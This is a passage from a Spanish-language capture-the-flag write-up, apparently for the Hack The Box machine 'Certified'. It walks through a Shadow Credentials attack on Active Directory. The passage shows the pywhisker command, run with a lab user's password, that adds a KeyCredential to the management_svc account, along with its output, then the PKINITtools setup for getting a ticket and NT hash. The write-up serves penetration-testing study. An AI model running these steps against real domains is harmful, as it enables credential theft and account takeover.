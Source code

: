 ![image-center](/assets/images/posts/certified-bloodhound-generic-write.png){: .align-center}

Para abusar de este permiso, modificaremos el atributo `msds-KeyCredentialLink`, agregando una credencial. De esta forma ahora la cuenta `management_svc` será vulnerable a `Shadow Credentials`, y así podremos obtener su hash `NT`

~~~ bash
pywhisker -d certified.htb -u judith.mader -p judith09 --target management_svc --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 58925750-8bd3-01d6-5056-06a24279da75
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (\#PKCS12) certificate & key at path: wvkggrHQ.pfx
[*] Must be used with password: MQXxINJmGoyoK275HVEK
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
~~~

Se nos sugiere continuar el ataque usando `PKINITtools`, nos clonaremos el repositorio en nuestra máquina

~~~ bash
git clone https://github.com/dirkjanm/PKINITtools
~~~

### PKINIT Tools Setup 

Primeramente necesitamos algunas dependencias, para hacerlo de una forma que no de problemas al usar este repo, usé un entorno virtual con `python`

~~~ bash
python3 -m venv pkinit
source pkinit/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
~~~
